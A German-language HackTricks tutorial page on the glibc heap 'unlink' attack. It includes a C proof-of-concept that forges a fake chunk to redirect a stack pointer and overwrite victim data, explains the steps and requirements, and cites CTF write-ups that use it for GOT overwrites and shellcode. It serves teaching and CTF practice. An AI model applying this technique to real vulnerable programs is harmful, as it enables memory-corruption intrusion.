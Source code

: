# Unlink-Angriff

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

## Grundlegende Informationen

Als dieser Angriff entdeckt wurde, ermöglichte er hauptsächlich ein WWW (Write What Where), jedoch wurden einige **Überprüfungen hinzugefügt**, was die neue Version des Angriffs interessanter, komplexer und **nutzloser** macht.

### Codebeispiel:

<details>

<summary>Code</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* Der Angriff funktioniert nicht, wenn tcaches verwendet werden (nach 2.26)

### Ziel

Dieser Angriff ermöglicht es, **einen Zeiger auf einen Chunk so zu ändern, dass er auf 3 Adressen vor sich selbst zeigt**. Wenn diese neue Position (Umgebung, in der sich der Zeiger befand) interessante Informationen enthält, wie andere steuerbare Allokationen / Stack..., ist es möglich, sie zu lesen/überschreiben, um größeren Schaden anzurichten.

* Wenn dieser Zeiger im Stack lag, weil er jetzt 3 Adressen vor sich selbst zeigt und der Benutzer ihn potenziell lesen und ändern kann, ist es möglich, sensible Informationen aus dem Stack auszulesen oder sogar die Rückkehradresse zu ändern (vielleicht) ohne den Canary zu berühren.
* In CTF-Beispielen befindet sich dieser Zeiger in einem Array von Zeigern auf andere Allokationen. Daher ist es möglich, ihn 3 Adressen vor sich selbst zeigen zu lassen und ihn lesen und schreiben zu können, um die anderen Zeiger auf andere Adressen zu zeigen.\
Da der Benutzer potenziell auch die anderen Allokationen lesen/schreiben kann, kann er Informationen auslesen oder neue Adressen an beliebigen Stellen überschreiben (z. B. im GOT).

### Anforderungen

* Kontrolle über einen Speicherbereich (z. B. Stack), um ein paar Chunks zu erstellen und einigen der Attribute Werte zuzuweisen.
* Stack-Leak, um die Zeiger des gefälschten Chunks zu setzen.

### Angriff

* Es gibt ein paar Chunks (Chunk1 und Chunk2).
* Der Angreifer kontrolliert den Inhalt von Chunk1 und die Header von Chunk2.
* Im Chunk1 erstellt der Angreifer die Struktur eines gefälschten Chunks:
* Um Schutzmechanismen zu umgehen, stellt er sicher, dass das Feld `size` korrekt ist, um den Fehler zu vermeiden: `corrupted size vs. prev_size while consolidating`
* und die Felder `fd` und `bk` des gefälschten Chunks zeigen auf die Stelle, an der der Zeiger von Chunk1 gespeichert ist, mit Offsets von -3 bzw. -2, sodass `fake_chunk->fd->bk` und `fake_chunk->bk->fd` auf die Position im Speicher (Stack) zeigen, an der sich die tatsächliche Adresse von Chunk1 befindet:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Die Header des Chunk2 werden geändert, um anzuzeigen, dass der vorherige Chunk nicht verwendet wird und dass die Größe der Größe des enthaltenen gefälschten Chunks entspricht.
* Wenn der zweite Chunk freigegeben wird, wird dieser gefälschte Chunk durchgeführt:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* Zuvor wurde sichergestellt, dass `fake_chunk->fd->bk` und `fake_chunk->fd->bk` auf denselben Ort zeigen (die Stelle im Stack, an der `Chunk1` gespeichert war, sodass es eine gültige verkettete Liste war). Da **beide auf dieselbe Stelle zeigen**, wird nur der letzte (`fake_chunk->bk->fd = fake_chunk->fd`) **effektiv** sein.
* Dies wird **den Zeiger auf Chunk1 im Stack überschreiben und auf die Adresse (oder Bytes) überschreiben, die sich 3 Adressen vor dem Stack befinden**.
* Daher kann ein Angreifer, wenn er erneut den Inhalt von Chunk1 kontrollieren könnte, **im Stack schreiben**, potenziell die Rückkehradresse überschreiben, den Canary überspringen und die Werte und Zeiger von lokalen Variablen ändern. Selbst wenn er erneut die Adresse von Chunk1 im Stack an eine andere Stelle überschreiben könnte, an der der Angreifer erneut den Inhalt von Chunk1 kontrollieren könnte, könnte er überall schreiben.
* Beachten Sie, dass dies möglich war, weil die **Adressen im Stack gespeichert sind**. Das Risiko und die Ausnutzung können davon abhängen, **wo die Adressen des gefälschten Chunks gespeichert sind**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Referenzen

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Obwohl es seltsam wäre, einen unlink-Angriff selbst in einem CTF zu finden, hier sind einige Write-ups, in denen dieser Angriff verwendet wurde:
* CTF-Beispiel: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* In diesem Beispiel gibt es anstelle des Stacks ein Array von malloc-Adressen. Der unlink-Angriff wird durchgeführt, um einen Chunk hier zu allozieren und somit die Zeiger des Arrays von malloc-Adressen zu kontrollieren. Dann gibt es eine weitere Funktionalität, die es ermöglicht, den Inhalt von Chunks an diesen Adressen zu ändern, was es ermöglicht, Adressen auf das GOT zu zeigen, Funktionsadressen zu ändern, um Lecks und RCE zu erhalten.
* Ein weiteres CTF-Beispiel: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Genau wie im vorherigen Beispiel gibt es ein Array von Adressen von Allokationen. Es ist möglich, einen unlink-Angriff durchzuführen, um die Adresse der ersten Allokation ein paar Positionen vor dem Beginn des Arrays zu setzen und diese Allokation an der neuen Position zu überschreiben. Daher ist es möglich, Zeiger anderer Allokationen zu überschreiben, um auf das GOT von atoi zu zeigen, es auszugeben, um ein libc-Leck zu erhalten, und dann das atoi-GOT mit der Adresse zu einem One-Gadget zu überschreiben.
* CTF-Beispiel mit benutzerdefinierten malloc- und free-Funktionen, die eine Schwachstelle missbrauchen, die der unlink-Attacke sehr ähnlich ist: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* Es gibt ein Überlauf, der es ermöglicht, die FD- und BK-Zeiger des benutzerdefinierten malloc zu kontrollieren, der (benutzerdefiniert) freigegeben wird. Darüber hinaus hat der Heap das Ausführungsbit, sodass es möglich ist, eine Heap-Adresse auszulesen und eine Funktion aus dem GOT auf einen Heap-Chunk mit einem Shellcode zu zeigen, um sie auszuführen.

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks bewerben** oder **HackTricks im PDF-Format herunterladen** möchten, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
